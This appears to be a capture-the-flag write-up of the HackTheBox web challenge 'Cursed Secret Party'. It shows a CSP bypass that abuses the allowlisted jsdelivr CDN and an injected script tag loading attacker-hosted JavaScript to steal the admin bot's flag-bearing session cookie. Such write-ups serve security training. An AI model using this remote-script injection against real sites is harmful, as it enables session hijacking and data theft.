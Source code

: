 # Cursed Secret Party

We start on this web page:

<figure><img src="../../../../../.gitbook/assets/image (9) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We capture the request and see that it looks like this:

<figure><img src="../../../../../.gitbook/assets/image (10) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

In the response we can see a CSP, so we head to [https://csp-evaluator.withgoogle.com/](https://csp-evaluator.withgoogle.com/) and look to see if the CSP is safe:

<figure><img src="../../../../../.gitbook/assets/image (11) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

the&#x20;

script-src is not safe according to the website&#x20;

```
Host allowlists can frequently be bypassed. Consider using 'strict-dynamic' in combination with CSP nonces or hashes.
```

on top of that The cdn.jsdelivr.net host is whitelisted to load JavaScript files. JSDeliver is a free CDN that allows for loading any JavaScript files hosted in NPM or GitHub

in the bot.js file i find the following line to show the flag:&#x20;

```
	let token = await JWTHelper.sign({ username: 'admin', user_role: 'admin', flag: flag });
```

```
const visit = async () => {
    try {
		const browser = await puppeteer.launch(browser_options);
		let context = await browser.createIncognitoBrowserContext();
		let page = await context.newPage();

		let token = await JWTHelper.sign({ username: 'admin', user_role: 'admin', flag: flag });
		await page.setCookie({
			name: 'session',
			value: token,
			domain: '127.0.0.1:1337'
		});

		await page.goto('http://127.0.0.1:1337/admin', {
			waitUntil: 'networkidle2',
			timeout: 5000
		});

		await page.goto('http://127.0.0.1:1337/admin/delete_all', {
			waitUntil: 'networkidle2',
			timeout: 5000
		});

		setTimeout(() => {
			browser.close();
		}, 5000);
```

```
<script src="https://github.com/felixbillieres/HTBjsdelivryexploit/blob/main/test.js"> </script>
```

the syntax to create a jsDeliver file is [https://cdn.jsdelivr.net/gh/\<USERNAME>/\<REPO>@\<BRANCH>/\<PATH\_TO\_FILE>\
](https://cdn.jsdelivr.net/gh/%3CUSERNAME%3E/%3CREPO%3E@%3CBRANCH%3E/%3CPATH_TO_FILE%3E) so i adapt it to my repo:

[https://cdn.jsdelivr.net/gh/felixbillieres/HTBjsdelivryexploit@main/test.js](https://cdn.jsdelivr.net/gh/felixbillieres/HTBjsdelivryexploit@main/test.js)-- -

<figure><img src="../../../../../.gitbook/assets/image (13) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
